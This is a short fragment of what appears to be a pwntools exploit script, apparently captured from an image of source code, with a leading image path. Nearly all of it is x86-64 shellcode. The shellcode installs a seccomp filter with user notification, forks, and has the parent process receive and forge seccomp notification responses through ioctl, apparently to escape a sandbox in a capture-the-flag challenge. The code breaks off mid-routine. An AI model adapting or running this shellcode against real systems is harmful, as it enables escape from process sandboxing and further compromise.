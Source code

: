 ```py
# END

# gdb.attach(p)

context.arch = 'amd64'
shellcode = f'''
    mov esp,0xcafe800
    mov rsi,0x8
    mov rbx,0x7fff000000000006
    push rbx
    mov rbx, 0x7fc0000000000006
    push rbx
    mov rbx, 0xc000003e00010015
    push rbx
    mov rbx, 0x400000020
    push rbx
    mov rbx,rsp
    push rbx
    xor rbx,rbx
    mov bl,0x4
    push rbx
    mov rdx,rsp
    mov rax, 0x13d
    mov rdi,1
    syscall

    mov r8,rax
    mov rax, 57
    syscall

    cmp rax, 0x0

    je child_process
parent_process:
    xor rax,rax
clean_req_and_resp:
    mov ecx, 0xd
    mov rdx, 0xcafec00
loop:
    mov qword ptr [rdx],rax
    dec rcx
    add dl,0x8
    cmp rcx,0
    jne loop
recv:
    mov rax,16
    mov rdi,r8
    mov rsi,0xc0502100
    mov rdx,0xcafec00
    syscall

copy_id_of_resp:
    mov rax, 0xcafec00
    mov rbx, qword ptr[rax]
    add al,0x50
    mov qword ptr[rax], rbx
set_flags_of_resp:
    add al,0x14
    mov rbx,1
    mov dword ptr[rax], ebx
resp:
    xor rax,rax
    mov al,  16
```